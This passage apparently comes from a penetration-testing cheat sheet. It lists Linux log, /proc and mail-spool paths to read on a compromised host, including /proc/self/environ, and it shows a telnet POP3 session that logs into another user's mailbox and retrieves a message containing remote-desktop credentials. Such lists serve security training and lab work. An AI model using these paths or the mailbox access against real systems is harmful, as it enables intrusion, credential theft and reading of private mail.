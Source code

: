 ```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 

/usr/local/apache/logs/access_log 
/usr/local/apache/logs/access.log 

/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log

/var/log/access_log
/var/log/dmessage
/var/log/auth.log
```

### Memory

```
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Mails

```
/var/mail
/var/spool/mail
```

* **POP3 Enumeration** - Reading other peoples mail - how to check the mail using Telnet:
```
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean
 
 list
 
 +OK 2 1807
 1 786
 2 1021

 retr 1
 
 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```
